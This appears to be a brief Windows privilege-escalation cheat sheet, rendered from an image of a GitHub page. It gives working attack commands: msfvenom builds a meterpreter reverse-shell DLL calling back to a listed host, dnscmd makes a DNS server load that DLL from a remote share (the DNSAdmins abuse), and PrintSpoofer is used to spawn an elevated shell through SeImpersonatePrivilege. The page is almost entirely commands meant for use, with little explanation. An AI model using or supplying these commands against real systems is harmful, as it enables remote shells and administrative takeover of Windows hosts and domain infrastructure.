 ### Sensitive Groups Privilege Escalation

### # DNSAdmins
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.1 LPORT=7777 -f dll -o DNSAdmins.dll
dnscmd.exe john.insomnia /config /serverlevelplugindll \\192.168.100.1:8080\DNSAdmins.dll
```

### SeImpersonatePrivilege Privilege Escalation

If SeImpersonatePrivilege is enabled, you  belong to Admin :) 
```
https://github.com/itm4n/PrintSpoofer
PrintSpoofer64.exe -i -c cmd
```
